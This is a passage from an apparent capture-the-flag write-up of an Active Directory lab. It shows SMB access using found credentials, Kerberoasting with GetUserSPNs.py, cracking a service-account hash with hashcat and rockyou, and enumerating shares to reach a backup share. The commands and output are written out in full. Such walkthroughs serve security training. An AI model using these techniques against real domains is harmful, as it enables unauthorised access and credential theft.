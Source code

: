 ```console
$ smbclient.py 'SOUPEDECODE.LOCAL/ybob317:ybob317@dc01.soupedecode.local'

# use Users
# cd ybob317/Desktop
# ls
drw-rw-rw-          0  Fri Jul 25 17:51:44 2025 .
drw-rw-rw-          0  Mon Jun 17 17:24:32 2024 ..
-rw-rw-rw-        282  Mon Jun 17 17:24:32 2024 desktop.ini
-rw-rw-rw-         33  Fri Jul 25 17:51:44 2025 user.txt
# get user.txt
```

## Root Flag

### Kerberoasting

With valid domain credentials, we check for **Kerberoastable** accounts using `GetUserSPNs.py`:

```console
$ GetUserSPNs.py -request -outputfile kerberoastables.txt 'SOUPEDECODE.LOCAL/ybob317:ybob317'

ServicePrincipalName    Name            MemberOf  PasswordLastSet             LastLogon  Delegation
----------------------  --------------  --------  --------------------------  ---------  ----------
FTP/FileServer          file_svc                  2024-06-17 17:32:23.726085  <never>
FW/ProxyServer          firewall_svc              2024-06-17 17:28:32.710125  <never>
HTTP/BackupServer       backup_svc                2024-06-17 17:28:49.476511  <never>
HTTP/WebServer          web_svc                   2024-06-17 17:29:04.569417  <never>
HTTPS/MonitoringServer  monitoring_svc            2024-06-17 17:29:18.511871  <never>
```

Now, using either `hashcat` or `john`, we attempt to crack the hashes with the `rockyou.txt` wordlist and successfully discover the password for the `file_svc` account.

```console
$ hashcat kerberoastables.txt /usr/share/wordlists/rockyou.txt

$ hashcat kerberoastables.txt --show
$krb5tgs$23$*file_svc$SOUPEDECODE.LOCAL$SOUPEDECODE.LOCAL/file_svc*$d66d...73b6:Pa[REDACTED]!!
```

### Accessing the Backup Share

With the `file_svc` account, we re-enumerate SMB shares and discover that we now have read access to the **backup** share.

```console
$ nxc smb dc01.soupedecode.local -u 'file_svc' -p 'Pa[REDACTED]!!' --shares
SMB         10.10.67.33     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.67.33     445    DC01             [+] SOUPEDECODE.LOCAL\file_svc:Pa[REDACTED]!!
SMB         10.10.67.33     445    DC01             [*] Enumerated shares
SMB         10.10.67.33     445    DC01             Share           Permissions     Remark
SMB         10.10.67.33     445    DC01             -----           -----------     ------
SMB         10.10.67.33     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.67.33     445    DC01             backup          READ
SMB         10.10.67.33     445    DC01             C$                              Default share
SMB         10.10.67.33     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.67.33     445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.67.33     445    DC01             SYSVOL          READ            Logon server share
SMB         10.10.67.33     445    DC01             Users
```
